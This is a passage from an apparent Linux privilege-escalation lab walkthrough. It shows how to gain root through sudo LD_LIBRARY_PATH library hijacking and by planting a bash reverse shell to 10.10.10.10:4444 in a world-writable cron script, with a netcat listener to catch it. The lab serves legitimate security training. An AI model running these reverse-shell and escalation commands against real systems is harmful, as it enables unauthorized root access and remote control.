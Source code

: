 ```bash
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
```

Run apache2 using sudo, while settings the LD_LIBRARY_PATH environment variable to /tmp (where we output the compiled shared object):

```bash
sudo LD_LIBRARY_PATH=/tmp apache2
```

A root shell should spawn. Exit out of the shell. Try renaming /tmp/libcrypt.so.1 to the name of another library used by apache2 and re-run apache2 using sudo again. Did it work? If not, try to figure out why not, and how the library_path.c code could be changed to make it work.

## 8. Cron Jobs - File Permissions

Cron jobs are programs or scripts which users can schedule to run at specific times or intervals. Cron table files (crontabs) store the configuration for cron jobs. The system-wide crontab is located at /etc/crontab.

View the contents of the system-wide crontab:

```bash
cat /etc/crontab
```

There should be two cron jobs scheduled to run every minute. One runs overwrite.sh, the other runs /usr/local/bin/compress.sh.

Locate the full path of the overwrite.sh file:

```bash
locate overwrite.sh
```

Note that the file is world-writable:

```bash
ls -l /usr/local/bin/overwrite.sh
```

Replace the contents of the overwrite.sh file with the following after changing the IP address to that of your Kali box.

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

Set up a netcat listener on your Kali box on port 4444 and wait for the cron job to run (should not take longer than a minute). A root shell should connect back to your netcat listener. If it doesn't recheck the permissions of the file, is anything missing?

```bash
nc -nvlp 4444
```

Remember to exit out of the root shell and remove the reverse shell code before continuing!

## 9. Cron Jobs - PATH Environment Variable
